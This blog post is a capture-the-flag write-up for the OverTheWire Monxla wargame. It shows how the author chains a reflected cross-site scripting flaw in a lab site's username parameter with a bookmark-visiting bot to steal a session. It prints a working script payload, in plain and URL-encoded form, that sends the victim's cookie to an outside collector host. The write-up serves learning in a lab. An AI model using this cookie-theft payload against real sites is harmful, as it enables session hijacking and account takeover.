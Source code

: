```yaml
---
layout: post
title: "OverTheWire Monxla Part 2"
date: 2012-11-25T05:05:00-05:00
comments: true
categories:
 - overthewire
 - wargames
 - linux
 - monxla
---
```


In the previous post, I showed how to get the PDF that outlines the services running on the Monxla VM image. This article will continue where that one left off.

Firstly, the PDF explains that there are 2 virtual hosts enabled on the machine. To configure my machine for these virtual hosts, I added these lines to my /etc/hosts file: 

```
192.168.188.134 nasenko.otw
192.168.188.134 honeylink.otw
```

There are 2 sites immediately available to you:

* The HoneyLink site is, so far, just a convenience for the wargame, so you don't have to setup your own HTTP server.  It gives you a prefix URL, that you can prepend anything you want to the end.  It will then show you the responses as they come in. {% img /images/monxla2_2.png %}
* The Nasenko home page. This is what appears to be the main application that we are attacking. It has a Bookmark Service, and the Notes service, which were referenced in the PDF, immediately visible. {% img /images/monxla2_1.png %}

After poking around a bit, I found that you are unable to access the Notes service, since you're not logged in. Per the blog article on the main page, login attempts are disabled. On the Bookmarks page, it says that the submitted bookmarks are being visited routinely. These two statements combined immediately made me think of using a [Session Hijacking](https://en.wikipedia.org/wiki/Session_hijacking) attack to steal the session of the user already logged in, checking the submitted bookmarks. 

To get started with my attack, I tried submitting several bookmarks, which were always rejected.  There was some sort of filtering going on, on the server side.  For some reason, I decided to try submitting the Nasenko site itself, and saw that it was actually accepted.  This means that I could at least submit data, as long as it was from the same website.  From there, that made me start thinking about finding a [Cross-Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability, so that I could redirect the traffic, and combine it with the Session Hijack attack. 

After searching for a bit, I found a Cross-Site Scripting vulnerability in the User Info page.  It wasn't cleanly filtering user input, so I was able to inject javascript into the "username" parameter. 

{% img /images/monxla2_3.png %}

To combine these two attacks, I crafted a URL that would use the Cross-Site Scripting attack to allow me to submit it from the proper host, as well as stealing the user's cookie: 

```
http://nasenko.otw/userinfo.php?username=<script>document.location='http://honeylink.otw/tH3zwj4P1z/cookie'+document.cookie;</script> 
```

However, due to some URL encoding issues (mainly the "+" splitting the parameter), I had to URL encode it using the [Burp Suite](http://portswigger.net/burp/): 

```
http://nasenko.otw/userinfo.php?username=%3c%73%63%72%69%70%74%3e%64%6f%63%75%6d%65%6e%74%2e%6c%6f%63%61%74%69%6f%6e%3d%27%68%74%74%70%3a%2f%2f%68%6f%6e%65%79%6c%69%6e%6b%2e%6f%74%77%2f%74%48%33%7a%77%6a%34%50%31%7a%2f%63%6f%6f%6b%69%65%27%2b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3b%3c%2f%73%63%72%69%70%74%3e
```

I submitted the URL to the Bookmark Service, and it gladly accepted it.  I then switched to the HoneyLink page, and clicked the "Refresh" button, and saw that my click had indeed been registered.  And lucky for me, it had the cookie listed:

{% img /images/monxla2_4.png %}

I then added a cookie with the stolen value. 

{% img /images/monxla2_5.png %}

When I then went to the Notes Service, which previously denied me access, I was able to view them. This meant it was successful. We successfully stole a valid user's session.

{% img /images/monxla2_6.png %}
